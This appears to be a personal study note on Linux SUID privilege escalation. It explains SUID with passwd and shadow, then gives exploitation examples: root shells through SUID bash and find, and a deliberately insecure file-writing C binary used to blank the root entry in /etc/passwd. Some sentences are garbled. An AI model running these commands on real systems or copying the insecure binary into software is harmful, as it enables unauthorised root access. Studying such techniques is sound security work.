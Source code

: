 [[Privilege Escalation]]

# What is SUID?
	Executable files can have special permission called `SUID` or `GUID`.

    Specifically, it allows the program to executed by anyone. Then, during the execution, it will change its permission and take the permissions to the owner of the file.

For Example, consider the `passwd` program.
```
$ ls -lh /usr/bin/passwd
-rwsr-xr-x 1 root root 80K 1 apr 12.19 /usr/bin/passwd
```
in order to change the passwd the user
`shadow` file which contains the hashes of the passwords.
```
$ ls -lh /etc/shadow
-rw------- 1 root root 1,3K 36 mag 17.19 /etc/shadow
```
as you can see only the root can view the file.

You can use the `passwd` file in order to access the `shadow` it uses the `SUID` as shown in the passwd file which has the `s`.

To set a SUID bit we can use `chmod` command.
```
$ chmod u+s exec.sh
$ ls -lh
-rwsr-x--x 1 leo users   0 38 mag 20.27 exec.sh
```

# Security Issues with SUID
Having a binary that runs as the owner of the file can be problematic when the `owner of the said file is the root user.

More specifically owned by root.
1. Read files owned by root
2. Read and write files owned by root
3. Execute arbitrary code as the root user

# Exploitation Examples
#### 🔧 1. Exploiting a SUID-enabled `bash`
If `bash` has the SUID bit set and owned by root:
```
-rwsr-xr-x 1 root root 1183448 Apr 10 00:00 /bin/bash

```
You can get a root shell:
```
./bash -p

```
Then:
```
$ whoami  
root
```
`-p` tells bash to not drop privileges.

#### 2. Using `find` with SUID
If `/usr/bin/find` has SUID bit set:
```
-rwsr-xr-x 1 root root 34832 Apr 10 00:00 /usr/bin/find
```
Exploit using:
```
find . -exec /bin/sh \;  # If 'sh' inherits SUID, you're root
```
OR directly:
```
find . -exec /bin/bash -p \;
```

#### 3. Writing to a file via a vulnerable SUID binary
Imagine a custom SUID binary allows file writing without checks:``
```
// vuln_write.c
int main(int argc, char *argv[]) {
    FILE *f = fopen(argv[1], "w");
    fprintf(f, "%s\n", argv[2]);
    fclose(f);
    return 0;
}
```
If compiled and SUID is set:
```
chmod u+s vuln_write
```
Then you can overwrite sensitive files like `/etc/passwd`:
```
./vuln_write /etc/passwd "root::0:0:root:/root:/bin/bash"
```
This resets root password to empty. Then you can `su root`.